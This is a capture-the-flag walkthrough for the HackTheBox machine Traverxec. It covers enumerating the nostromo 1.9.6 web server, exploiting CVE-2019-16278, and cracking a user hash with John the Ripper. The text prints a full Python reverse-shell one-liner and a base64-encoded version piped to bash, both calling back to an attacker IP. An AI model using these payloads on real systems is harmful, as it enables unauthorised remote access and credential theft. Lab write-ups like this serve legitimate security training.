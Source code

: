# Traverxec HackTheBox

![image](https://user-images.githubusercontent.com/5285547/124390855-611f6100-dce5-11eb-9e04-504177808d60.png)


## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```

What's nostromo 1.9.6? I've not seen that before. 
Let's check it out. 

## www-data 

Finding an exploit online and checking it out, seems a socket is used to connect back to the server, nice!

Exploit: https://www.exploit-db.com/exploits/47837

```
 python2.7 cve2019_16278.py 10.10.10.165 80 id
```

![image](https://user-images.githubusercontent.com/5285547/124392012-510a8000-dceb-11eb-98b7-078c1895ce3c.png)

Nice, time for a reverse shell. 

## Payload

python3
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.15",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

- Then base64 encoded
- Then urlencoded (all charaters)


- Final payload & command
```
python2.7 cve2019_16278.py 10.10.10.165 80 "echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjE1Iiw5OTk5KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw%3D%3D|base64 -d|bash"
```

![image](https://user-images.githubusercontent.com/5285547/124392273-7a77db80-dcec-11eb-991f-d8bb03df01b4.png)


We're on the box
Using linpeas.sh to enumerate I find david's hash, craking time 2!

![image](https://user-images.githubusercontent.com/5285547/124392503-d8f18980-dced-11eb-9ed4-921b7abde379.png)


```
~/src/john/run/./john hash -w=/usr/share/SecLists/Passwords/rockyou.txt
(I'm using linux mint, adjust to your needs for kali, parrot etc)
```

![image](https://user-images.githubusercontent.com/5285547/124392492-c8d9aa00-dced-11eb-90ce-bc6619bcf4c8.png)

Enumerating the conf files gave away some juicy info realtead to where server paths are defined

```
cat nhttpd.conf 
# MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html

# LOGS [OPTIONAL]

logpid			logs/nhttpd.pid

# SETUID [RECOMMENDED]

user			www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
```

